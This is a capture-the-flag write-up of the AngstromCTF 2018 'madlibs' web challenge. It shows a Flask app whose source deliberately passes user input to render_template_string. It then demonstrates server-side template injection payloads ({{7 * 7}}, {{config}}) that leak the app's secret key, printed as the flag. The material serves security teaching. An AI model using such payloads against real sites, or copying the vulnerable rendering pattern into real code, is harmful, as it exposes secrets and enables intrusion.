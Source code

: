 ```yaml
---
layout:     post
title:      "AngstromCTF - madlibs"
description: "In this challenge we're going to explore common vulnerability in Flask framework."
date:       2018-03-22 2:00:00
author:     "W3ndige"
permalink: /:title/
category: AngstromCTF
---
```


Welcome to first write up from the Angstrom CTF, in which we're going to focus on web security.

- Category: Web
- Points: 120

{% highlight text %}
When Ian was a kid, he loved to play goofy Madlibs all day long. Now, he's decided to write his own website to generate them!
{% endhighlight %}

### Solution

We're presented with the website generating Madlibs stories, getting them from the user input. If you don't know what Madlibs is take a look [here](https://en.wikipedia.org/wiki/Mad_Libs), but it won't be needed in order to solve the challenge.

{% highlight html %}
<!doctype html>
<title>Angstrom MadLibs</title>

<body>

<h4>The Tale of a Person</h4>

<p>
A long, long time ago, there lived a in person. This person had a prized possesion, it was a my.
Every day before using their my, the person liked to closet.
</p>

<h4>THE END</h4>

This MadLib with title The Tale of a Person was created by hello at 2018-03-21 19:48:06
<br><br>
<a href="/">Click here to return to the home page.</a>
<br><br>
MadLib generated using program found <a href="../get-source">here</a>
</body>
</html>
{% endhighlight %}

As you can see, together with the interface we get a source code of this application, which is written in [Flask](http://flask.pocoo.org/).

{% highlight python %}
from flask import Flask, render_template, render_template_string, send_from_directory, request
from jinja2 import Environment, FileSystemLoader
from time import gmtime, strftime
template_dir = './templates'
env = Environment(loader=FileSystemLoader(template_dir))


madlib_names = ["The Tale of a Person","A Random Story"]
story_fields = {
    "The Tale of a Person":['Author Name','Adjective','Noun','Verb'],
    "A Random Story":['Author Name','Adjective','Noun','Any first name','Verb']
    }

app = Flask(__name__)
app.secret_key = open("flag.txt").read()

@app.route("/",methods=["GET"])
def home():
    return render_template("home.html",libs=madlib_names)

@app.route("/form/<templatename>",methods=["GET"])
def madlib(templatename):
    global madlib_names
    if templatename in madlib_names:  
        return render_template("home.html",libs=madlib_names,title=templatename,fields=story_fields[templatename])
    else:
        error_message = 'The MadLib with title "' + templatename + '" could not be found.'
        return render_template("home.html",libs=madlib_names,message=error_message)

@app.route("/result/<templatename>",methods=["POST"])
def output(templatename):

    if templatename not in madlib_names:    
        return "Template not found."

    inpValues = []
    for i in range(len(story_fields[templatename])):
        if not request.form[str(i+1)]:
            return "All form fields must be filled"
        else:
            inpValues.append(request.form[str(i+1)][:24])

    authorName = inpValues.pop(0)[:12]
    try:
        comment = render_template_string('''This MadLib with title %s was created by %s at %s''' % (templatename, authorName, strftime("%Y-%m-%d %H:%M:%S", gmtime())))
    except:
        comment = "Error generating comment."
    return render_template("_".join(templatename.lower().split())+".html",libtitle=templatename,footer=comment, libentries=inpValues)


@app.route("/get-source", methods=["GET","POST"])
def source():
    return send_from_directory('./','app.py')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=7777, threaded=True)
{% endhighlight %}

We can see the whole logic of written application, but is there something we can exploit? Let's focus on the user input, and specifically `authorName` variable that is used to store our name and print it inthe comment.

Firstly, we can see that it's being limited to only 12 characters, which we can easiliy check.

{% highlight python %}
authorName = inpValues.pop(0)[:12]
{% endhighlight %}

With author name `123456789abcd`, which is 13 characters, only first 12 `123456789abc` will be printed. That's the first obstacle we have to keep in mind.

After that we're getting to creating the comment with this line of code.

{% highlight python %}
comment = render_template_string('''This MadLib with title %s was created by %s at %s''' % (templatename, authorName, strftime("%Y-%m-%d %H:%M:%S", gmtime())))
{% endhighlight %}

Firstly, we have to think about `render_template_string()` function. Quick google will tell us, that it's used in order to work with templates, that will look just like in this [example](http://flask.pocoo.org/docs/0.12/tutorial/templates/). Further analysis of this code doesn't provide us with any new, or more useful information so let's stick to what we have already.

Part of the job of every preson is IT is to learn how to google efficiently in order to look for information. That's what I did this time, googled `flask template vulnerability` and look what we have in [this](https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html) link, which showed as the first one in this search engine.

In addition we get very interesting [whitepaper](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf), I advice everyone to read it. But back to the challenge. In quick words, we're able to inject Python code into the template, which will be then executed. Simple test works by putting the input {% raw %}`{{7 * 7}}`{% endraw %} in our author name input.

{% highlight text %}
 This MadLib with title The Tale of a Person was created by 49 at 2018-03-21 20:08:58
{% endhighlight %}

Great, it works! But how do we get the secret that is stored at `app.secret_key = open("flag.txt").read()` variable. As it's name is to long in order to work correctly, we'll have to find a workaround. Luckily, there's a [config]() that stores the configuration of our application. Let's take a look at it  with {% raw %}`{{config}}`{% endraw %}. And ladies and gentlemen, here we have the config.

{% highlight text %}
This MadLib with title The Tale of a Person was created by &lt;Config {&#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;actf{wow_ur_a_jinja_ninja}&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;LOGGER_NAME&#39;: &#39;__main__&#39;, &#39;LOGGER_HANDLER_POLICY&#39;: &#39;always&#39;, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: None, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: None, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: False, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: True, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None}&gt; at 2018-03-21 20:25:01
{% endhighlight %}

Spot the flag and here you go.
